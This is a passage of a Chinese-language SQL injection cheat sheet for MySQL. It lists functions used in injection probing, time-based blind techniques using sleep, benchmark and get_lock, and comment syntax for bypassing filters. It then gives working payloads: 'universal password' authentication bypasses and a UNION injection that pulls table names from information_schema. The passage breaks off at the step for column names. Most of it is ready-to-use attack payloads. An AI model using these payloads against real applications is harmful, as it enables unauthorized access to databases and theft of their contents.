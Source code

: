 * 返回指定 ASCII 字符对应的值

`ascii` `ord`

```sql
select ascii('a');
select ord('a');
```

* 返回指定数字对应的 ASCII 码

`char`

```sql
select char(97);
```

* 计算相关

`length` `count`

```sql
select length(database()); # 计算数据库名长度。
select count(*) from users;
```

* 时间相关

`sleep` `if` `benchmark`

```sql
select sleep(5); # 睡眠5秒
(select*from(select(sleep(5)))a)
select if((locate('s',database(),1)=1),sleep(5),1); # if(expr1,expr2,expr3)
select benchmark(10000000,sha(1)); # benchmark(loop_count,expr)，loop_count 表示循环次数，expr 执行的表达式。
select get_lock('test',1);  # get_lock(lock_name,timeout)，lock_name 表示锁名，timeout 表示超时时间。
```

* 注释方法

`#` `--+` `/* */` `/*! */` `/*!50000 */` MySQL 5 通用 带版本内联注释。

### 注入语句

* 万能密码

```sql
'admin' or 1=1 #
'admin' or 'a'='a' or 'a'='a
```

* UNION 注入

1. 获取表名。

```sql
'-1' union select 1,group_concat('</br>',table_name),3 from information_schema.tables where table_schema=database() %23
```

2. 获取字段名。
